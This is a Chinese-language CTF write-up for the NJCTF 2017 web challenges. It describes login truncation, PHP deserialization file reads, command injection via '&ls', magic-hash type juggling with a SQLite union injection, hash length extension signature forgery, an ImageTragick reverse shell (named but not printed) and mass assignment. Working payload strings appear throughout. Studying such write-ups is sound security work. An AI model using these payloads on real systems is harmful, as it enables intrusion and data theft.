


# Web

## Login
一个数据库截断导致的问题，注册时注册超长字符串，后面一截会被截断，于是注册
`admin + 一堆空格  + a`
直接admin登录即可。试了很久的\00填充发现不行，而空格可以。数据库会忽略掉字符串后面的空格。


## Text Wall

首先抓包发现cookie中有list字段，前面是一段sha1加密的40位密文，后面是一串序列化的字符串


通过扫目录发现有`.index.php.swo`，文件内容：


结合cookie中list字段可以发现构造序列化字符串去读文件，如下首先读取index.php内容

`
a:2:{i:0;s:1:"a";i:1;O:8:"filelist":1:{s:6:"source";s:9:"index.php";}}
`


发现flag的目录为web根目录，于是
`
a:2:{i:0;s:1:"a";i:1;O:8:"filelist":1:{s:6:"source";s:40:"../PnK76P1IDfY5KrwsJrh1pL3c6XJ3fj7E_fl4g";}} 
`
得到flag


## Get Flag

进入题目，发现只有一个搜索图片的功能


按提示输入`1.jpg`会正常显示一张图片，当输入不合法的图片名字时，如`1.jpg11`，则会发现


一个cat命令读取，猜想是不是可以读取任意文件，或者用连接符任意命令执行，于是尝试`1.jpg11|ls`


被过滤了orz，尝试其他符号，`1.jpg11&ls`


成功读出`ls`结果，后面就是找flag了，最后找到flag在根目录下


`NJCTF{Simp13_Pyth0n_C0de_Inj3cti0n_a77ack}`

## Wallet

扫描路径发现存在`www.zip`，公告提示是弱密钥，跑了各种字典都没出，试了`NJCTF2017`也不对，最后发现小写过了(这TM的弱密钥。)

解压后关键源代码如下：
```php
<?php

...
if ($auth == $hsh) {
    $auth = 0;
} else {
    if (sha1((string) $hsh) == md5((string) $auth)) {
        $auth = 1;
    } else {
        $auth = 0;
    }
...
if ($auth) {
    if (isset($_GET['query'])) {
        $db = new SQLite3($SQL_DATABASE, SQLITE3_OPEN_READONLY);
        $qstr = SQLITE3::escapeString($_GET['query']);
        $query = "SELECT amount FROM my_wallets WHERE id={$qstr}";
        $result = $db->querySingle($query);
        if (!$result === NULL) {
            echo "Error - invalid query";
        } else {
            echo "Wallet contains: {$result}";
        }
...
```

发现首先需要满足

`if (sha1((string) $hsh) == md5((string) $auth))`

即都是0e数字格式即可，

`sha1(aaroZmOk) == md5(240610708)`满足条件，

接下来是通过query变量sql注入。
sqlmap扫描发现存在flag表，使用以下语句注出flag

`-1 union select a from(select 1 as a,2 as b from flag where 1=2 union select * from flag)`




##Be Logical

首先进去看到一个注册登录界面，没有发现什么问题。
注册登录进去后，发现有一个买flag的，需要$1000，但是只给了$500，就要想办法让自己有超过$1000的金钱。
除了购买flag的，还有金钱和积分交换的功能，已经将金钱交换回来的功能，但是交换时跟了一个签名sign，单独修改金钱或者积分提示sign错误。在process.php源码中提示有Sign.php，访问发现为空，大佬发现访问.Sign.php.swp可以下载备份（膜大佬）。下下来可以看到sign的计算方法，估计就是伪造sign换取更多的金钱或者积分去购买。

```php
<?php
error_reporting(0);
class Sign {


    public static function getSign($param, $code, $sign_type = 'MD5'){
        $param = self::paramFilter($param);
        $param = self::paramSort($param);
        $param_str = self::createLinkstring($param);
        $param_str = $code.$param_str ;
        return self::createSign($param_str, $sign_type);
    }


    public static function checkSign($sign, $param, $code, $sign_type = 'MD5'){
        return $sign == self::getSign($param, $code, $sign_type);
    }


    private static function paramFilter($param){
        $param_filter = array();
        foreach ($param as $key => $val) {
            if($key == 'submit' || $key == 'sign' || $key == 'sign_type'){
                continue;
            }
            $param_filter[$key] = $val;
        }
        return $param_filter;
    }


    private static function paramSort($param){
        ksort($param);
        reset($param);
        return $param;
    }


    private static function createLinkstring($param){
        $str = '';
        foreach ($param as $key => $val) {
            $val=urldecode($val);
            $str .= $key.$val;
        }
        if(get_magic_quotes_gpc()){
            $str = stripslashes($str);
        }
        return $str;
    }

    private static function createSign($param, $type = 'MD5'){
        $type = strtolower($type);
        if($type == 'md5'){
            return md5($param);
        }
        exit($type . " currently not supported!");
    }
}
```
观察源码发现，sign是将一个未知的$key和输入的变量连接到一起，用md5加密得到。由于$key未知，大佬们当时就想到了[哈希长度扩展攻击](http://www.cnblogs.com/pcat/p/5478509.html "哈希长度扩展攻击")（喵喵喵？密码学博士还是厉害），然后就是利用攻击方法猜测$key的长度（发现是10），最后就伪造签名在refund页面换取了1000+的积分，购买后进入一个新的页面：


可以长传正常JPG格式图片，然后可以将JPG转换成bmp，


考虑到imageTragick漏洞，利用 CVE-2016–3714-imageTragick的exp反弹shell成功。
*等待补充*

## Be Admin

`index.php.bak`

[padding oracle attack](https://blog.skullsecurity.org/2013/padding-oracle-attacks-in-depth)


## Blogs

题目提供了源码，找到注册时的关键源码如下



注册时抓包发现，注册时变量为user[name], user[email], 于是构造user[admin] = 1，注册提交。


在没有源码时，在users界面发现<!--flag is here-->，于是登录后去访问users界面，在源码中发现flag


